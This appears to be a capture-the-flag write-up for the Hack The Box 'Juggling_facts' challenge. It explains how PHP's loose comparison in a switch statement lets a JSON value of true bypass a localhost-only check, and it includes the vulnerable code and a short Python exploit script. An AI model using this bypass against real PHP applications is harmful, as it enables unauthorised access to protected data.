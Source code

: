 ```yaml
---
title: Juggling_facts
date: 2023-12-09 15:53:16 +0800
categories: [Hackthebox-Challenges, Juggling_facts]
tags: [htb, ctf, pentesting, web, code-auditing]
---
```



<img src="../../assets/global/banner.png" alt="banner image">

## Juggling_facts is a PHP chalenge on Hackthebox

### Description:

This challenge allows you to choose between some type of option called facts,\
but to access the **secret** one that contains out FLAG you need to access this site from localhost,\
we can't do that but after some code auditing it was using switch case,\
 and furtunatly it's vulnerble to `loose comparison`.

### Source code:
<a href='https://mega.nz/file/CbJRgSjT#XFf7s4AVC-WkkqPq6Rxz9DT3J1DZBL4o-jCVH11ZW4I'>Download source code</a>

*zip password: `hackthebox`*


### Vulnerable code:
```php
        if ($jsondata['type'] === 'secrets' && $_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
        {
            return $router->jsonify(['message' => 'Currently this type can be only accessed through localhost!']);
        }
# as you see if the user input equals `secret` and the request didn't come from localhost an error message returned.
```

```php
 public function getfacts($router)
    {
        $jsondata = json_decode(file_get_contents('php://input'), true);

        if ( empty($jsondata) || !array_key_exists('type', $jsondata))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        if ($jsondata['type'] === 'secrets' && $_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
        {
            return $router->jsonify(['message' => 'Currently this type can be only accessed through localhost!']);
        }

        switch ($jsondata['type'])
        {
            case 'secrets': // here where the `loose comparison` happenes
                return $router->jsonify([
                    'facts' => $this->facts->get_facts('secrets')
                ]);

            case 'spooky':
                return $router->jsonify([
                    'facts' => $this->facts->get_facts('spooky')
                ]);
            
            case 'not_spooky':
                return $router->jsonify([
                    'facts' => $this->facts->get_facts('not_spooky')
                ]);
            
            default:
                return $router->jsonify([
                    'message' => 'Invalid type!'
                ]);
        }
    }

```

to understand more about this issue take a look at `switch case` manual in php.net.

<img src="../../assets/juggling_facts/loose-comparison.png" alt="lose comparison image">

so to exploit this take a look at this table provided by `PHP` manual.


<img src="../../assets/juggling_facts/table.png" alt="lose comparison table image">

As you can see if we have for example `case "secret":` and we pass `true` in the `option(true)` parameter.\
it will match the secret because it uses only two equals `==` not three.



### Solve:

```python


import requests


payload = """
    {
        "type":true
    }
"""
url = 'http://localhost:1337/api/getfacts'
headers = {'Content-Type': 'application/json'}
res = requests.post(url, data=payload, headers=headers)
if res.status_code == 200:
    print(res.text)
else:
    print(res.status)


```

